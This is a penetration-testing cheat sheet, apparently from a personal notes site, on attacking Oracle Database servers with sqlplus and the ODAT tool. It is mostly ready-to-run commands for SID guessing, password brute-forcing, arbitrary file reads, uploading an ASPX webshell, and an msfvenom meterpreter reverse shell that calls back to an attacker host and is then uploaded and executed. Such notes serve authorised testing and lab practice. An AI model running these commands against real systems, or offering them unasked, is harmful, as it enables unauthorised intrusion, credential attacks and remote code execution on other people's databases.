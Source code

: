 ```yaml
---
title: "Oracle Database"
date: 2024-7-5
tags: ["oracle", "database", "1521", "sqlplus", "odat", "revshell", "rce"]
---
```


---
### Tools

{{< tab set1 tab1 active >}}sqlplus{{< /tab >}}
{{< tab set1 tab2 >}}ODAT{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```bash
# Install
sudo apt install oracle-instantclient-sqlplus
```

```bash
# export LD_LIBRARY_PATH
export LD_LIBRARY_PATH=/usr/lib/oracle/19.6/client64/lib${LD_LIBRARY_PATH:+:$LD_LIBRARY_PATH}
```

```bash
# Check
sqlplus -V
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

<div>

```bash
# Install
sudo apt install odat
```

```bash
# Check
odat --version
```

</div>

<small>*Ref: [Download ODAT](https://github.com/quentinhardy/odat)*</small>

{{< /tabcontent >}}

<br>

---

### Enum

<div>

```bash
# SID enum (You only need one)
odat sidguesser -s 10.10.11.10
```

```bash
# User/Password brute force
odat passwordguesser -s 10.10.11.10 -d <SID> --accounts-file accounts.txt
```

```bash
# Run all checks with creds as sysdba
odat all -s 10.10.11.10 -U <USER> -P <PASSWORD> -d <SID> --sysdba
```

</div>

### General

<div>

```bash
# Export everytime or add to ~/.zshrc
export LD_LIBRARY_PATH=/usr/lib/oracle/19.6/client64/lib${LD_LIBRARY_PATH:+:$LD_LIBRARY_PATH}
```

```bash
# Connect
sqlplus <USER>/<PASSWORD>@10.10.11.10:1521/<SID>
```

```bash
# Connect as sysdba (sudo)
sqlplus <USER>/<PASSWORD>@10.10.11.10:1521/<SID> as sysdba
```

```bash
# Check privilege
select * from user_role_privs;
```

</div>

<br>

---
#### Arbitrary Read

<div>

```bash
odat ctxsys -s 10.10.11.10 -U <USER> -P <PASSWORD> -d <SID> --sysdba --getFile c:\\users\\administrator\\desktop\\file.txt
```

</div>

#### Upload File to RCE

<div>

```bash
odat dbmsadvisor -s 10.10.11.10 -U <USER> -P <PASSWORD> -d <SID> --sysdba --putFile C:\\inetpub\\wwwroot cmdasp.aspx /usr/share/webshells/aspx/cmdasp.aspx
```

</div>

#### Execute binary to RCE

<div>

```bash
# Create a malicious exe
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.10 LPORT=443 -f exe -o revshell.exe
```

```bash
# Upload
odat utlfile -s 10.10.11.10 -U <USER> -P <PASSWORD> -d <SID> --sysdba --putFile \\Temp revshell.exe revshell.exe
```

```bash
# Execute
odat externaltable -s 10.10.11.10 -U <USER> -P <PASSWORD> -d <SID> --sysdba --exec \\Temp revshell.exe
```

</div>

<br>